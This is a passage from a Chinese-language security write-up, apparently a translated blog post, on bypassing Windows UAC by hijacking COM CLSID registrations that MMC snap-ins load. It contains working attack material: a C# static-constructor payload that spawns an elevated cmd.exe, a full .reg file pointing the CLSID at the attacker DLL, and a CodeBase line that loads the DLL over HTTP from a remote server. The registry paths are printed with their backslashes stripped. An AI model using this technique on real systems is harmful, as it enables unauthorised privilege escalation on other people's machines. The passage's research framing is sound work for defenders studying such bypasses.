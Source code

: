 MMC随后就会加载我们构造的DLL，并会尝试访问TestDotNet.Class1类。默认情况下，C#无法像DllMain那样，创建一个简单便捷的DLL入口点（我们也不想专门为此写一个模块初始化程序，因为我们很懒），但注册表中引用的那个类似乎会被加载，因此，我们可以使用静态构造函数来执行我们的提权代码：

```
using System;
using System.Diagnostics;

namespace TestDotNet
`{`
   public class Class1
   `{`
      static Class1()
      `{` 
         Process.Start("cmd.exe");
         Environment.Exit(0);
      `}`
   `}`
`}`
```

DLL以及相应的注册表项准备就绪后，现在运行gpedit.msc，我们就会得到一个高权限shell（这次是通过一个 .NET DLL来实现）：

[![](https://p1.ssl.qhimg.com/t01b057671f27d93ef2.png)](https://p1.ssl.qhimg.com/t01b057671f27d93ef2.png)

[![](https://p5.ssl.qhimg.com/t01fb8b3bbc880dd879.png)](https://p5.ssl.qhimg.com/t01fb8b3bbc880dd879.png)

这种方法比较有趣的一点在于，CodeBase参数不必局限于本地文件以及SMB共享文件，使用HTTP URL地址也可以完成加载：

```
"CodeBase"="http://server:8080/test_managed.dll"
```

所下载的DLL需要保存到磁盘中，因此，相对比本地DLL而言，这种方法更容易被检测到（因为涉及到磁盘+网络行为）。

攻击者喜闻乐见的是，有多个CLSID可以用于这种方法。

比如，compmgmt.msc、eventvwr.msc、secpol.msc以及taskschd.msc可以使用如下方法实现UAC绕过目的：

将“**Microsoft.ManagementConsole.Advanced.FrameworkSnapInFactory**”组件作为托管DLL。

[![](https://p0.ssl.qhimg.com/t01d0ae3a4173ef67d6.png)](https://p0.ssl.qhimg.com/t01d0ae3a4173ef67d6.png)



```
Windows Registry Editor Version 5.00
[HKEYCURRENTUSERSoftwareClassesCLSID`{`D5AB5662-131D-453D-88C8-9BBA87502ADE`}`] @="Microsoft.ManagementConsole.Advanced.FrameworkSnapInFactory"
[HKEYCURRENTUSERSoftwareClassesCLSID`{`D5AB5662-131D-453D-88C8-9BBA87502ADE`}`Implemented Categories]
[HKEYCURRENTUSERSoftwareClassesCLSID`{`D5AB5662-131D-453D-88C8-9BBA87502ADE`}`Implemented Categories`{`62C8FE65-4EBB-45e7-B440-6E39B2CDBF29`}`]
[HKEYCURRENTUSERSoftwareClassesCLSID`{`D5AB5662-131D-453D-88C8-9BBA87502ADE`}`InprocServer32] @="C:WindowsSystem32mscoree.dll" "Assembly"="TestDotNet, Version=0.0.0.0, Culture=neutral" "Class"="TestDotNet.Class1" "RuntimeVersion"="v2.0.50727" "ThreadingModel"="Both" "CodeBase"="file://C://Temp//test_managed.dll"
[HKEYCURRENTUSERSoftwareClassesCLSID`{`D5AB5662-131D-453D-88C8-9BBA87502ADE`}`InprocServer323.0.0.0] "Assembly"="TestDotNet, Version=0.0.0.0, Culture=neutral" "Class"="TestDotNet.Class1" "RuntimeVersion"="v2.0.50727" "CodeBase"="file://C://Temp//test_managed.dll"
```
